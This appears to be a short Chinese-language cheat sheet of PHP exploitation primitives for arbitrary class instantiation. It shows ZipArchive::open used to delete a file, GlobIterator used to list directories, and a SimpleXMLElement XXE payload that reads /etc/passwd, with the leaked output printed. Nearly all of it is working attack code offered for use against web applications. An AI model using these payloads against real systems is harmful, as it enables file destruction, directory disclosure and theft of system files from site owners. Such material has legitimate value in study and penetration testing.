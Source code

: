 ### 实例化任意类

> 
**ZipArchive::open 删除文件：**<br/> 要调用对象的额open函数，且open函数中的参数可控


```
$a = new ZipArchive();
$a-&gt;open('1.txt',ZipArchive::OVERWRITE);  
// ZipArchive::OVERWRITE:  总是以一个新的压缩包开始，此模式下如果已经存在则会被覆盖
// 因为没有保存，所以效果就是删除了1.txt

```

> 
**GlobIterator 遍历目录：**<br/> 遍历对象


```
GlobIterator::__construct(string $pattern, [int $flag])
从使用$pattern构造一个新的目录迭代

```

```
使用例子

$newclass = new GlobIterator("./*.php",0);
foreach ($newclass as $key=&gt;$value)
    echo $key.'=&gt;'.$value.'&lt;br&gt;';

```

> 
**SimpleXMLElement XXE：**<br/> 用来表示XML文档中的元素


```
&lt;?php
$xml = &lt;&lt;&lt;EOF
&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;!DOCTYPE ANY[
    &lt;!ENTITY xxe SYSTEM "file:///etc/passwd"&gt;
]&gt;
&lt;x&gt;&amp;xxe;&lt;/x&gt;
EOF;
$xml_class = new SimpleXMLElement($xml, LIBXML_NOENT);
var_dump($xml_class);
?&gt;

结果为：
object(SimpleXMLElement)#1 (1) {
  [0]=&gt;
  string(2393) "root:x:0:0:root:/root:/bin/bash
  ... ..."
}

```
